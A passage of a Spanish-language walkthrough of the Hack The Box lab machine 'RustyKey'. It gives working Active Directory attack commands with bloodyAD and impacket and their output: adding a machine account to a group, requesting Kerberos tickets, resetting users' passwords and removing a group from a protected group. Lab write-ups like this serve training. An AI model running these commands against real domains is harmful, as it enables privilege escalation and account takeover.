 ```bash
bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' add groupMember HELPDESK 'IT-COMPUTER3$'
```
```bash
[+] IT-COMPUTER3$ added to HELPDESK
```

ya agregado podemos seguir adelante 

![image](https://github.com/user-attachments/assets/d48daa7e-c2ef-463b-8b22-10545f55c970)

y aqui observamos que podemos cambiar la password de los usuarios, pero anteres vamos a solicitar un ticket kerberos para el usuario `IT-COMPUTER3`

```bash
impacket-getTGT rustykey.htb/'IT-COMPUTER3$':'Rusty88!'
```
```bash
[*] Saving ticket in IT-COMPUTER3$.ccache
```

seteamos la variable `KRB5CCNAME`

```bash
export KRB5CCNAME=IT-COMPUTER3\$.ccache
```

y ahora si procedemos a cambiar la password del usuario `gg.anderson`

```bash
bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password gg.anderson 'Testing123@'
```
```bash
[+] Password changed successfully!
```

pero si ahora intentamos solicitar un ticket kerberos no es posible y si examinamos un poco mas en bloodhound veremos que el usuario `gg.anderson` pertecene al Grupo `IT` que es miembro del grupo `PROTECTED USERS`

![image](https://github.com/user-attachments/assets/589bc9e1-0dc7-4194-9a21-43861f2cb516)

Esto puede estar creando restricciones por lo que haremos sera salir del grupo `PROTECTED USERS`

```bash
bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'PROTECTED OBJECTS' 'IT'
```

aqui sacamos el grupo `IT` del grupo `PROTECTED OBJECTS` y luego de intentar solicitar el ticket kerberos tampoco logramos resultados asi que cambiamos de usuario y testeamos con `bb.morgan` que pertenece a los mismo grupos

![image](https://github.com/user-attachments/assets/ac4e9198-c68c-4479-bfdc-1c53d46523ef)

haremos lo mismo que con el usuario anterior, primero cambiamos la password y luego solicitamos el ticket kerberos
